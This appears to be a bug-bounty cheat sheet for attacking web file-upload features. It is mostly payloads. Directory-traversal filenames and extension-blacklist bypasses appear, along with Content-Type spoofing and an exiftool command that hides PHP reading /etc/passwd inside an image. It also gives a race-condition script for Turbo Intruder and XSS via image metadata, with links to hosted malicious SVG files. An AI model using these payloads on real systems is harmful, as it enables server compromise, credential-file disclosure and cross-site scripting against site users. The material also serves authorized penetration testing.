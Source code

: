 # Upload Files

## Directory Traversal
```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
Content-Disposition: form-data; name="avatar"; filename="..%2exploit.php"
```
## Content-Type
Content-Type to image/jpeg.

## Extension blacklist bypass

```http
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
```

## Metadata
```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```
## Race condition

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

## Test metadata
Upload xss_comment_exif_metadata_double_quote.png
```http
Content-Type:image/png - Content-Type: text/html
```
##### Reference: https://hackerone.com/reports/964550

## If is possible to change src=
Add urls:
* https://angeljuanma.github.io/bug-bounty/evil.svg
* https://angeljuanma.github.io/bug-bounty/xss.svg
* https://angeljuanma.github.io/bug-bounty/xss.html

## cannot be displayed

The image "" cannot be displayed because it contains errors.

use:

```
curl -s -X GET "https://domain.com/uploads/aJEa412rsdfgF" | html2text | mdcat
```


